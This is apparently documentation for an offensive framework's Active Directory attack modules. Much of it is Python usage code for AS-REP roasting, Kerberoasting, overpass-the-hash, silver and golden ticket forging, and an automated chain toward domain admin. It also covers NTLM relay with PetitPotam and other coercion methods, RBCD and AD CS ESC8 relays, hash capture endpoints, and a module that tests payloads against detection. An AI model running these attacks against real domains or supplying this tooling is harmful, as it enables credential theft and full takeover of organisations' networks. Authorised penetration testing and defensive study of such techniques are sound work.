


# Kerberos Attack Chain & NTLM Relay Integration

## Overview

This document describes the Kerberos attack chain and NTLM relay integration added to the monolith framework.

## Kerberos Attack Chain

### Attack Flow



### Features

#### AS-REP Roasting
- Enumerate users without pre-authentication
- Extract AS-REP hashes
- Generate hashcat/john crack commands

```python
from cybermodules.kerberos_chain import ASREPRoaster

roaster = ASREPRoaster(scan_id=1)
users = roaster.enumerate_no_preauth_users(
    domain="corp.local",
    dc_ip="192.168.1.1"
)

# Get crack commands
commands = roaster.generate_crack_commands()
print(commands['hashcat'])  # hashcat -m 18200 ...
```

#### Kerberoasting
- Request TGS tickets for SPNs
- Extract TGS hashes for offline cracking

```python
from cybermodules.kerberos_chain import Kerberoaster

roaster = Kerberoaster(scan_id=1)
hashes = roaster.roast(
    domain="corp.local",
    dc_ip="192.168.1.1",
    username="user",
    password="pass"
)
```

#### Overpass-the-Hash (OPTH)
- Use NTLM hash to obtain TGT
- Enables Kerberos auth without password

```python
from cybermodules.kerberos_chain import OverpassTheHash

opth = OverpassTheHash(scan_id=1)
ticket = opth.request_tgt_with_hash(
    domain="corp.local",
    username="admin",
    ntlm_hash="aad3b435b51404ee",
    dc_ip="192.168.1.1"
)

# Use ticket
print(f"export KRB5CCNAME={ticket.ccache_file}")
```

#### Silver Ticket
- Forge service tickets with service hash
- Access specific services without DC

```python
from cybermodules.kerberos_chain import SilverTicketForger

forger = SilverTicketForger(scan_id=1)
ticket = forger.forge(
    domain="corp.local",
    domain_sid="S-1-5-21-...",
    target_user="Administrator",
    target_host="dc01.corp.local",
    service="cifs",
    service_hash="abc123..."
)
```

#### Golden Ticket
- Forge TGT with KRBTGT hash
- Complete domain dominance

```python
from cybermodules.kerberos_chain import GoldenTicketForger

forger = GoldenTicketForger(scan_id=1)
ticket = forger.forge(
    domain="corp.local",
    domain_sid="S-1-5-21-...",
    krbtgt_hash="abc123...",
    target_user="Administrator"
)
```

#### Full Attack Chain
- Automated chain execution
- AS-REP → Kerberoast → OPTH → Tickets

```python
from cybermodules.kerberos_chain import KerberosAttackChain

chain = KerberosAttackChain(scan_id=1)
result = chain.execute_full_chain(
    domain="corp.local",
    dc_ip="192.168.1.1",
    username="user",
    password="pass",
    krbtgt_hash="...",  # If available
    domain_sid="S-1-5-21-..."
)

print(f"DA Achieved: {result.domain_admin_achieved}")
```

---

## NTLM Relay Integration

### Attack Flow



### Coercion Methods

| Method | Protocol | Description |
|--------|----------|-------------|
| PetitPotam | MS-EFSRPC | EFS encryption coercion |
| PrinterBug | MS-RPRN | Print Spooler coercion |
| DFSCoerce | MS-DFSNM | DFS namespace coercion |
| ShadowCoerce | MS-FSRVP | VSS agent coercion |

### Features

#### NTLM Relay Server
- Relay to LDAP/LDAPS
- Relay to SMB
- Relay to AD CS (ESC8)

```python
from cybermodules.ntlm_relay import NTLMRelayServer, RelayAttack

server = NTLMRelayServer(scan_id=1)

# Start LDAP relay with RBCD attack
server.start_relay_to_ldap(
    target_dc="dc01.corp.local",
    attack=RelayAttack.RBCD,
    delegate_to="EVILPC$"
)

# Or relay to SMB
server.start_relay_to_smb(
    targets=["192.168.1.10", "192.168.1.11"],
    dump_secrets=True
)

# Get captured hashes
hashes = server.get_captured_hashes()
```

#### Coercion Triggers

```python
from cybermodules.ntlm_relay import NTLMCoercer

coercer = NTLMCoercer(scan_id=1)

# PetitPotam
attempt = coercer.petitpotam(
    target="dc01.corp.local",
    listener="192.168.1.100"
)

# Check all methods
results = coercer.check_all_methods(
    target="dc01.corp.local",
    listener="192.168.1.100"
)
```

#### Full Relay Chain

```python
from cybermodules.ntlm_relay import NTLMRelayChain, CoercionMethod

chain = NTLMRelayChain(scan_id=1)

# RBCD Attack
result = chain.execute_rbcd_attack(
    coerce_target="dc01.corp.local",
    dc_target="dc01.corp.local",
    delegate_to="EVILPC$",
    listener_ip="192.168.1.100",
    coerce_method=CoercionMethod.PETITPOTAM
)

# AD CS ESC8 Attack
result = chain.execute_adcs_relay(
    coerce_target="dc01.corp.local",
    ca_host="ca01.corp.local",
    listener_ip="192.168.1.100"
)
```

---

## API Endpoints

### Kerberos Routes

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/kerberos/asrep` | POST | AS-REP Roasting |
| `/kerberos/kerberoast` | POST | Kerberoasting |
| `/kerberos/opth` | POST | Overpass-the-Hash |
| `/kerberos/silver` | POST | Silver Ticket |
| `/kerberos/golden` | POST | Golden Ticket |
| `/kerberos/chain` | POST | Full Attack Chain |
| `/kerberos/tickets` | GET | List Tickets |
| `/kerberos/diagram` | GET | Attack Diagram |

### Relay Routes

| Endpoint | Method | Description |
|----------|--------|-------------|
| `/relay/start/ldap` | POST | Start LDAP Relay |
| `/relay/start/smb` | POST | Start SMB Relay |
| `/relay/start/adcs` | POST | Start AD CS Relay |
| `/relay/stop` | POST | Stop Relay |
| `/relay/coerce/petitpotam` | POST | PetitPotam |
| `/relay/coerce/printerbug` | POST | PrinterBug |
| `/relay/coerce/dfscoerce` | POST | DFSCoerce |
| `/relay/coerce/shadowcoerce` | POST | ShadowCoerce |
| `/relay/coerce/check` | POST | Check All Methods |
| `/relay/chain/rbcd` | POST | RBCD Attack |
| `/relay/chain/adcs` | POST | AD CS Attack |
| `/relay/hashes` | GET | Get Captured Hashes |

---

## Evasion Testing

### Features
- YARA rule scanning
- Suspicious string detection
- Entropy analysis
- Behavioral pattern detection

```python
from cybermodules.evasion_testing import EvasionTester

tester = EvasionTester(scan_id=1)

# Test file
report = tester.test_file("/path/to/payload.exe")

# Test bytes
report = tester.test_bytes(payload_bytes, name="payload.bin")

# Test code
report = tester.test_code_pattern(python_code, language="python")

# Generate markdown report
markdown = tester.generate_report_markdown(report)
print(f"Risk Level: {report.overall_risk.value}")
print(f"Total Score: {report.total_score}")
```

### Detection Levels

| Level | Score Range | Description |
|-------|-------------|-------------|
| CLEAN | 0 | No detection |
| LOW | 1-29 | Minor indicators |
| MEDIUM | 30-59 | Some suspicious patterns |
| HIGH | 60-99 | Likely malicious |
| CRITICAL | 100+ | Known malware patterns |

---

## Requirements

- Impacket (GetNPUsers, GetUserSPNs, getTGT, ticketer, ntlmrelayx)
- YARA (optional, for payload scanning)
- Python 3.10+
